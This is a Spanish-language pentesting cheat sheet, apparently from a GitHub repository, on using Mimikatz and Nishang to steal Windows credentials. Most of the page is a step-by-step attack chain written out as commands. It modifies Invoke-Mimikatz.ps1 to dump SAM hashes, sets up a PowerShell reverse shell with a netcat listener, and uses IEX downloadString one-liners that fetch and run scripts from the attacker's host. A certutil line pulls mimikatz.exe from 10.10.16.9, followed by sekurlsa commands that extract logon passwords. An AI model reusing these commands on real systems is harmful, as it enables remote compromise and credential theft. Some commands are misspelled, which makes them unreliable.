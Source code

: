 Mimikatz es una herramienta para extraer:
* passwords en texto plano
* hashes
* PINs y tickets de kerberos
* Realizar pass-the-hash, pass-the-ticket o construir Golden tickets

===========================================================================

** Nishang **
https://github.com/samratashok/nishang
Nishang es un framework y una colección de scripts y payloads que permite el uso de Powershell para seguridad ofensiva, pentesting y red team. Muy útil para todas las fases de un pentesting.

Invoke-Mimikatz.ps1 es el script que nos permite dumpear los hashes
En el sistema local:
>Copiamos el fichero Invoke-Mimikatz.ps1 para modificarlo
>`cp /usr/share/nishang/Gather/Invoke-Mimikatz.ps1 .`
>Modificamos el archivo para poner en la última línea las funciones que dumpearán los hashes
>`Invoke-Mimikatz -Command "token::elevate"`
>`Invoke-Mimikatz -Command "lsadump::sam"`
>Establecemos una reverse shell por Powershell con el script Invoke-PowershellTCP.ps1, también del repositorio de nishang
>Copiamos el fichero Invoke-PowershellTCP.ps1 para modificarlo
>`cp /usr/share/nishang/Shells/Invoke-PowershellTCP.ps1 .`
>Modificamos su última línea para añadir.
>`Invoke-PowershellTCP -Reverse -IPAddress <own_ip> -Port 443`
>Abrimos sesión con netcat donde recibiremos la reverse shell una vez el script se ejecute en el sistema Windows
>`rlwrap nc -nlvp 443`
>Creamos un servidor web para poder transferir los archivos
>`python -m SimpleHTTPServer 80`

En el sistema objetivo Windows, teniendo una cmd como consola
>Transferimos el archivo Invoke-PowershellTCP
>`start /b powershell IEX(New-Object Net.WebClient).downladString('http://<own_ip>:80/Invoke-PowershellTCP.ps1')`
>Recibiremos una reverse shell en la sesión abierta por netcat

En el sistema objetivo Windows, con una sesión con powershell
>Transferimos el fichero Invoke-Mimikatz.ps1 desde la máquina Windows
>`IEX(New-Object Net.WebClient).downladString('http://<own_ip>:80/Invoke-Mimikatz.ps1')`
>El script se ejecutará automáticamente gracias a los cambios realizados en él

===========================================================================

** mimikatz.exe **
En kali linux encontramos el recurso mimikatz.exe en /usr/share/responder/tools/Multirelay/bin/.

Transferimos mimikatz.exe a la máquina objetivo:
`certutil.exe -f -urlcache -split http://10.10.16.9/mimikatz.exe mimikatz.exe`
Uso de mimikatz.exe para extraer las credenciales:
`mimikatz.exe`
`privilege::debug`
`sekurlsa::loginPasswords`